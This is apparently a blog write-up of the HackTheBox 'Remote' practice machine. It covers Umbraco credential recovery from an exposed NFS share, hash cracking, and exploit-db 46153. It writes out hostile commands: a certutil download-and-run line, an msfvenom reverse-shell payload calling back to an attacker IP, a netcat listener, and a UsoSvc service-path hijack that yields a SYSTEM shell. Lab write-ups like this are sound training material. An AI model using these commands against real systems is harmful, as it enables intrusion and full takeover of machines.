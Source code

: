 ```yaml
---
author: Greenjam94
categories:
- Community
ct_period_last_updated:
- default
date: "2020-07-04T03:37:38Z"
guid: https://www.hackerunder.dev/?p=870
id: 870
image: /wp-content/uploads/2020/07/HTB_Remote.png
tags:
- walkthough
- htb
- kali
title: HackTheBox Remote Writeup
url: /hackthebox-remote-writeup/
---
```


Remote was a fun windows box to hack. This is my second active target on HTB. My first was [Traceback](https://www.hackerunder.dev/hackthebox-traceback-write-up/). Check that out for a similar web based exercise on Linux. Remote starts with a web vulnerability but requires finding credentials in a public share. DLL Hijacking is required to get a system shell.

## Lessons learned:

- Mounting a public windows share
- Exploit modifications – changing python code for a web exploit
- DLL Hijacking for privilege escalation

## Information gathering

An initial nmap scan reveals some listening services.   
`nmap -A -T4 10.10.10.180`

Of the services listed, a few seemed important.

- FTP
- web
- mountd
- RPC

Reviewing ftp, anonymous connections were not allowed and nothing was really visible here.

Web is running an application called **Umbraco**. Source code from the app can be found online. There are multiple exploits in the exploit-database and on Github.

Other Windows services were new to me. Some googling required, I figured out how to look into mountd. There’s an nmap script to check what is available.  
`nmap -p 2049 -sV --script=nfs-showmount -oG nfs-showmount 10.10.10.180`

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_1_nmap_nfs-1024x277.png)</figure>The directories and files related to the Umbraco web app are exposed. The first thing to look at is the config files. Database connection info, credentials, and API keys are commonly stored here.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_2_grep_config-1024x107.png)</figure>Database files (.sdf) are also good targets. Since it’s a binary file, a command like `strings` is required to make it readable. Adding `grep` we can find the username and hash of the admin user.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_3_grep_db-1024x126.png)</figure>`Hash-identifier` will confirm the hash format. `John` can be used to crack the SHA1 hash and reveal that the password is **baconandcheese**.

## Exploitation

Now that there is a user to authenticate with, [exploit 46153](https://www.exploit-db.com/exploits/46153) from exploit-db can be used. This creates command execution on the target. Before using the exploit we can see there is a few oddities about the script. Each line of the code ends with a semi-colon. The multi-line payload is wrapped in single quotes. To edit the payload easily, I replaced this with a simple string wrapped in triple double quotes “””.

The key part of the payload is below. There is multiple ways to improve this. What I originally did while exploiting this box was create two files. 46153-getnc.py and 46153-usenc.py where each had a hardcoded command.

```
<pre class="wp-block-code">```
string cmd = "";
```
```

As I write this review, it is clear that it would be easier to pass a variable. Just do the following and use a single file instead.  
`python3 46153fix.py "/c certutil -urlcache -split -f <hosted_file> <target_destination>"`

Using the exploit, we can copy the windows binary for netcat from kali onto the target and use it to open a reverse shell as a low privilege user, this allows us to get access to the user.txt proof file.

<div class="wp-block-image"><figure class="aligncenter size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_4_get_nc_onto_target.png)</figure></div>Note: Anything we are downloading from Kali needs to be hosted on a web server. Lately I’ve been a using a simple web server. `python3 -m http.server 80`   
However a great tool that provides a better visual interface and other features is [UpDog](https://www.hackerunder.dev/whats-updog/). Both are options to for hosting.

<div class="wp-block-image"><figure class="aligncenter size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_4_host_nc-1024x262.png)<figcaption>use python web server to host kali’s windows-binaries directory</figcaption></figure></div><figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_5_use_nc.png)<figcaption>use exploit and netcat to open a reverse shell</figcaption></figure><figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_5_listen_nc.png)<figcaption>listener with reverse shell</figcaption></figure>## Privilege Escalation

There are many commands to run that help gather information on how to get a better shell. One tutorial that walks through a lot is <https://www.fuzzysecurity.com/tutorials/16.html>

Running `wmic service where started=true get name, startname` will show us a list of started services running on the target. Going through this list reveals which are vulnerable to DLL Hijacking. One such service is UsoSvc or the “Update Orchestrator Service”. I followed an example from <https://www.nccgroup.com/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/> but modified what commands were used.  
  
I created a windows reverse shell with msfvenom. The command below creates an executable file we can upload like the netcat binary.  
`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.39 lport=443 -f exe > root.exe`  
  
Use a python web server and the certutil command to download the file, then run the executable by changing the config of the UsoSvc service.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_6_host_root_mfsvenom-1024x150.png)<figcaption>host payload on Kali web server</figcaption></figure><figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_6_get_root_msfv_payload-1024x284.png)</figure>```
<pre class="wp-block-preformatted">sc stop UsoSvc
sc config UsoSvc binpath="c:\windows\temp\root.exe
sc start UsoSvc
```

Make sure that a netcat listener is already listening `nc -nlvp 443` before running the start command.

<figure class="wp-block-image size-large">![](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_7_dll_hijack-1024x446.png)</figure>This returns a system level shell that can do anything on Remote. At this point you can create a permanent backdoor, clean up exploit files, or simply revert the box and move on to the next challenge.

<figure class="wp-block-image size-large">![System reverse shell on Remote through a netcat listener](https://www.hackerunder.dev/wp-content/uploads/2020/07/remote_8_get_system.png)<figcaption>System reverse shell on a netcat listener</figcaption></figure>